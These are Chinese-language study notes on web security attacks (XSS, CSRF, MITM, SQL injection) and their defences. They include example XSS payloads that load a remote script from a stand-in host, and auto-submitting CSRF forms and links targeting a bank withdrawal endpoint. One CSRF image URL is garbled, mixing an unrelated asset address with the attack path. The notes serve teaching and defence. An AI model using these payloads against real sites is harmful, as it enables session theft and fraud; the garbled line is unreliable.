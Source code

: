 # 概览

- **XSS**：XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
- **CSRF**: CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事
- **中间人攻击**：是指攻击者与通讯的两端分别创建独立的联系，在通讯中充当一个中间人角色对数据进行监听、拦截甚至篡改。
- **SQL注入**：SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
- **DDoS 攻击**：DDos 拒绝服务攻击（Denial of Service attack）是一种能够让服务器呈现静止状态的攻击方式。其原理就是发送大量的合法请求到服务器，服务器无法分辨这些请求是正常请求还是攻击请求，所以会照单全收。海量的请求造成服务器进入停止工作或拒绝服务的状态。
- **上传文件限制**:如果 web 网站没有对文件类型进行严格的校验，导致可执行文件被恶意上传到了服务器，恶意脚本就会执行
- **DNS 查询攻击**：DNS 查询攻击就是攻击者通过精心构造 DNS报文 ，在 DNS 查询解析某个域名时，冒充真正的权威 DNS 做出回应，使得用户访问得到一个虚假响应。一旦本地接受了这个虚假响应并写入缓存，DNS 就会被攻击，用户也不清楚自己正在访问错误的地址或数据


# XSS
>  Cross Site Scripting（跨站脚本攻击） 是指攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方式，又叫跨域脚本。常见类型有：反射型（非持久性）存储型（持久性）DOM 型

同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信。

支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。



### 类型
#### 反射型（非持久性）  
原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：  
**通过 URL 插入恶意代码。**  
**有服务端参与。**   
**需要用户访问特定链接。**  

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的Cookie 等）。

#### 存储型（持久性）  
原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：  
**恶意代码存储在目标网站服务器上。**  
**有服务端参与。**   
**只要用户访问被注入恶意脚本的页面时，就会被攻击。** 

例子：  
攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过innerHTML 渲染到页面中。其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM 型  
原理：  
攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。  

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

要点：  
在客户端发生。

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。被害者在不知情的情况下，执行了攻击者注入的脚本。

#### 总结
存储型 XSS： 持久化，代码是存储在服务器中的

反射型 XSS： 非持久化，需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面

基于 DOM 的 XSS： 不经过后端，纯粹发生在客户端的攻击，属于前端 JavaScript 自身的安全漏洞

### 防范 XSS  
- 对于外部传入的内容进行充分转义。**过滤特殊字符，或对特定字符进行编译转码**  
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。**对重要的 cookie 设置 httpOnly**
  - HttpOnly 最早由微软提出，至今已经成为一个标准。
  - 通过对重要的 Cookie 设置 httpOnly ，防止客户端通过 document.cookie 读取 cookie ，也就是说，JavaScript 读取不到此条 Cookie ，也就无法提交给恶意服务器了
  - 注意：此 HTTP 头由服务端设置
- **URLEncode 操作**
  - 将不可信的值输出 URL参数之前，进行 URLEncode操作。对于从 URL 参数中获取值一定要进行格式检测（比如你需要的时URL，就判读是否满足URL格式）
- Web 安全头支持
浏览器自带的防御能力，一般是通过开启 Web 安全头生效的。具体有以下几个：

  - **CSP** ：W3C 的 Content Security Policy，简称 CSP，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。要配置 CSP , 需要对 CSP 的 policy 策略有了解，具体细节可以参考 CSP 是什么。
  - **X-Download-Options**: noopen ：默认开启，禁用 IE 下下载框 Open 按钮，防止 IE 下下载文件默认被打开 XSS。
  - **X-Content-Type-Options: nosniff** ：禁用 IE8 自动嗅探 mime 功能例如 text/plain 却当成 text/html 渲染，特别当本站点 server 的内容未必可信的时候。
  - **X-XSS-Protection** ：IE 提供的一些 XSS 检测与防范，默认开启


# Cross-site request forgery(CSRF)

### 案例
一个真实的案例：用户 David 在自己邮箱内点击了黑客恶意伪装的链接。黑客在点击的链接里冒充用户(cookie)向 Gmail 服务器发送邮件自动转发请求，导致 David 的邮件都被自动转发到了黑客的邮箱，从而被黑客利用盗取了用户数据。

### 原理
原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。

### 要点：
- 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
- 攻击一般发生在第三方网站上。
- 攻击者只能“冒用”受害者的身份凭证，并不能获取。
- 跨站请求有多种方式，常见的有图片 URL、超链接、Form 提交等。

### CSRF 常见的攻击方式与防护策略
常见的攻击方式：  
* 自动发起 GET 请求的 CSRF
* 自动发起 POST 请求的 CSRF
* 引诱用户点击链接的 CSRF

1. 自动发起 Get 请求  
GET类型的CSRF利用非常简单，只需要一个HTTP请求，一般会这样利用：
```
 ![](https://awps-assets.meituan.net/mit-x/blog-images-bundle-2018b/ff0cdbee.example/withdraw?amount=10000&for=hacker)
```
在受害者访问含有这个img的页面后，浏览器会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次HTTP请求。bank.example就会收到包含受害者登录信息的一次跨域请求。

2. 自动发起 POST 请求  
这种类型的CSRF利用起来通常使用的是一个自动提交的表单，如：
```html
 <form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script>
```
访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。  
POST类型的攻击通常比GET要求更加严格一点，但仍并不复杂。任何个人网站、博客，被黑客上传页面的网站都有可能是发起攻击的来源，后端接口不能将安全寄托在仅允许POST上面。

3. 引诱用户点击链接  
链接类型的CSRF并不常见，比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。这种类型通常是在论坛中发布的图片中嵌入恶意链接，或者以广告的形式诱导用户中招，攻击者通常会以比较夸张的词语诱骗用户点击，例如：
```html
  <a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
  <a/>
```
由于之前用户登录了信任的网站A，并且保存登录状态，只要用户主动访问上面的这个PHP页面，则表示攻击成功。


CSRF 攻击的两个必要条件：  

**1. 目标站点一定要有 CSRF 漏洞；**  
**2. 诱导用户从目标网站，打开一个第三方站点。**

CSRF通常从第三方网站发起，被攻击的网站无法防止攻击发生，只能通过增强自己网站针对CSRF的防护能力来提升安全性。

上文中讲了CSRF的两个特点：

CSRF（通常）发生在第三方域名。
CSRF攻击者不能获取到Cookie等信息，只是使用。
针对这两点，我们可以专门制定防护策略，如下：

* 阻止不明外域的访问
  * 同源检测
  * Samesite Cookie
* 提交时要求附加本域才能获取的信息
  * CSRF Token
  * 双重Cookie验证
### 防范：

1. 使用 **CSRF Token** 验证用户身份
原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量。
2. **双重 Cookie 验证**
原理：利用攻击者不能获取到 Cookie 的特点，在 URL 参数或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 一致。
优点：无需使用 Session，不会给服务器压力。
3. 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选值有 Strict、Lax、None。(**SameSite Cookie**)
Strict：完全禁止第三方 Cookie。
Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
None：关闭 SameSite 属性。
**设置为 Lax 或者 Strict，禁止发送第三方 Cookie。**
5. 设置白名单，仅允许安全域名请求
6. 增加验证码验证

# 中间人攻击（MITM）
> 中间人攻击是一种通过各种技术手段入侵两台设备通信的网络攻击方法

成功的中间人攻击主要有两个不同的阶段：拦截和解密。

### 中间人攻击防范  
* 对于开发者来说：
  * 支持 HTTPS。
  * 开启 HSTS 策略。
* 对于用户来说：
  * 尽可能使用 HTTPS 链接。
  * 避免连接不知名的 WiFi 热点。
  * 不忽略不安全的浏览器通知。
  * 公共网络不进行涉及敏感信息的交互。
  * 用可信的第三方 CA 厂商，不下载来源不明的证书。

# SQL注入
### 案例
一般我们提交的表单数据（未经过滤的情况下）都会拼接到 SQL 查询语句中的，就例如：
```sql
SELECT * FROM users WHERE name='aaa'
```
其中 name 的参数就是从表单中传过来的数据，如果传的参数是一条 SQL 语句，那么就可能骗过了 SQL 数据库，从而执行了一段恶意的代码，达到了攻击效果。

### 防范
* 把应用服务器的数据库权限降至最低，尽可能地减少 SQL 注入攻击带来的危害。

* 避免网站打印出SQL错误信息，比如类型错误、字段不匹配等，把代码里的SQL语句暴露出来，以防止攻击者利用这些错误信息进行SQL注入。

* 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。

* 所有的查询语句建议使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，即不要直接拼接SQL语句。

* 在测试阶段，建议使用专门的 SQL 注入检测工具进行检测。网上有很多这方面的开源工具，例如sqlmap、SQLninja等。

* 善用数据库操作库，有些库包可能已经做好了相关的防护，只需阅读其文档，看是否支持相应的功能即可。
